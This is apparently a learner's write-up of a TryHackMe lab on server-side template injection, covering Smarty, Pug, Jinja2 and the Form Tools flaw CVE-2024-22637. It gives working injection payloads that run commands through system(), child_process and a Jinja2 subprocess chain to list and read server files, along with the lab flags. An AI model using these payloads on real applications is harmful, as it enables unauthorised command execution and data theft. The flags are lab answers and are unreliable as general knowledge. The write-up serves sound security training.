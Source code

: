 Here's i will show the task of that lab.

In task 4 we have some task to do.
Here's are the question: What is the content of the hidden text file in the server directory?

First what we need to do is go that page, http://ssti.thm:8000/smarty/ but do not forget to add the domain into your /etc/hosts like: echo "10.10.10.10 ssti.thm" >> /etc/hosts, you need to be a root.

This is a simply page, we need to cat hidden text file

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/8d795bc5-43d3-48fa-9b42-41a65170c107)

In the searchbar wrote that to list all files in that directory, ```{system("ls")}```. We can see text file, with random numbers, look below.

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/1a9cca5a-96b5-457d-a684-800caf4f4f75)

to cat file, just use that command ```{system("cat 7c45b2d3a741398826f497d58b73a401.txt index.php")}``` and that command will show us the flag.
THM{0739eea78f5c7f4b1690737c6258e38b} 

Task 5: NodeJS - Pug
Here's are othere simply task to do: What is the content of the hidden text file in the server directory?
Go to that page: http://ssti.thm:8001/jade/

Like in previous task, also are there simply page.
by this command we can list all files: 
```#{root.process.mainModule.require('child_process').spawnSync('ls').stdout}```
here's are the results of that command:

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/1d0713ba-8a90-4e9c-9aae-a0e0c0e3cede)

Now we need to use cat, to check what's inside that text file.
```#{root.process.mainModule.require('child_process').spawnSync('cat', ['7f58571b42d8c477a2f3efa69a681ac3.txt']).stdout}``` if you wanna know how's it work, you should check that task, there is a lot of more description of that comand.
Here's are the results of that command:

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/87ec96c0-fdf4-4f90-a558-91ffc2c608fe)


Go to the next task,
Python - Jinja2, go to that page:  http://ssti.thm:8002/jinja2/
To identify what's that engine is running you can check by this, if the results be 49, you will know that is a jinja2.
```{{7*7}}```

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/f59420bc-a9d8-4a80-8798-b476b0b40e36)

now we need to somehow list all files in the directory.
Here's are the command to make that real :D ```{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['ls'])}}```
Below's are the results of that command:

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/c1299694-70f5-4d0b-8cd6-508005455ce8)

By that command, you will what's inside that file.
```Here's are the command to make that real :D ```{{"".__class__.__mro__[1].__subclasses__()[157].__repr__.__globals__.get("__builtins__").get("__import__")("subprocess").check_output(['cat', '5d8bea6df83cbb6767a235c4ba54933b.txt'])}}```
That's a flage: THM{ecc43642dd6934d37c69598174e6e126}

We will skip the next one task: Automating the Exploitation, do by your self this sutomating tools :)

Task 8 Extra-Mile Challenge go to that page: http://ssti.thm:8080/ the credentials are username: admin, password: admin
i will how make that vuln by manual, also here's are the CVE number to dip in it, to learn how's its work CVE-2024-22637
Here's are description of that CVE: ```Server Side Template Injection (SSTI) vulnerability in Form Tools 3.1.1 allows attackers to run arbitrary commands via the Group Name field under the add forms section of the application.```

First what we need to do is, go add forms
We will see 3 buttons, as below: 

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/05054ab8-538e-480c-be28-d9efc06d8bce)

select the internal, wrote some random form name like: admin, then click add form above you can see main,fields,views etc.. go to views and you will see view group.

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/b19bfeb8-ffec-4280-a375-ce5f1d7219b0)

try ```{{7*7}}``` and you will 49, thats a proof that there is a SSTI, our task is to did: What is the content of the hidden text file in the server directory?
let's try ```{system("ls")}```the output of it is: index.phppage_edit_email.phppage_edit_view.phppage_email_settings.phppage_emails.phppage_fields.phppage_main.phppage_public_form_omit_list.phppage_public_view_omit_list.phppage_views.phppage_views.php

comply nothing intresting, try that command ```{system('ls /var/www/html')}``` and there is some text file: 105e15924c1e41bf53ea64afa0fa72b2.txtLICENSE.txtadmincacheclientserror.phpforget_password.phpglobalindex.phpinstallmodulesprocess.phpreactthemesuploadvendorvendor

Let's cat that file by this command: ```{system("cat /var/www/html/105e15924c1e41bf53ea64afa0fa72b2.txt")}``` and u will get that flag, as below:

![image](https://github.com/Anogota/Server-side-Template-Injection/assets/143951834/1541b985-ca3b-4aee-ad55-ded5ad477f00)

That's it, i hope i helped you
